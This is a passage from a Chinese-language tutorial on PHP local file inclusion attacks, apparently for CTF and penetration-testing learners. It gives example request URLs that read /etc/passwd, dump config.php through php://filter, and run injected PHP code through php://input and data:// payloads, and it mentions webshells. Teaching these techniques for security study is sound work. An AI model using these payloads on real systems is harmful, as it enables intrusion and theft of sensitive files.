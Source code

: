 1. **权限提升**  
：结合其他漏洞获取更高权限  
  
1. **完全控制**  
：在某些情况下获得服务器的完全控制权  
  
在CTF比赛和实际渗透测试中，LFI是常见的切入点，往往可以配合其他技术扩大攻击面。  
## LFI利用技术详解  
### 1. 基本利用  
  
最简单的LFI利用是直接包含系统文件：  
```
http://vulnerable-site.com/page.php?file=/etc/passwd

```  
### 2. PHP伪协议利用  
  
PHP提供了多种伪协议，可以在文件包含漏洞中发挥强大作用：  
### php://filter  
  
php://filter  
是一种元封装器，用于"数据流打开"时的"筛选过滤"。它可以在不直接执行PHP代码的情况下读取源代码文件：  
```
http://vulnerable-site.com/page.php?file=php://filter/convert.base64-encode/resource=config.php

```  
  
这个请求会返回config.php  
文件的Base64编码内容，攻击者可以解码后查看源代码，而不会执行文件中的PHP代码。这对于获取敏感配置信息、寻找更多漏洞入口点非常有用。  
### php://input  
  
如果服务器配置允许，php://input  
可用于执行POST请求中的PHP代码：  
```
http://vulnerable-site.com/page.php?file=php://input

```  
  
攻击者通过POST请求传入PHP代码：  
```
<?php phpinfo(); ?>

```  
  
服务器会执行这段代码，显示PHP配置信息。更危险的是，攻击者可以传入一句话木马等恶意代码。  
### data://伪协议  
  
data://  
数据流封装器允许直接在URL中包含数据：  
```
http://vulnerable-site.com/page.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2B

```  
  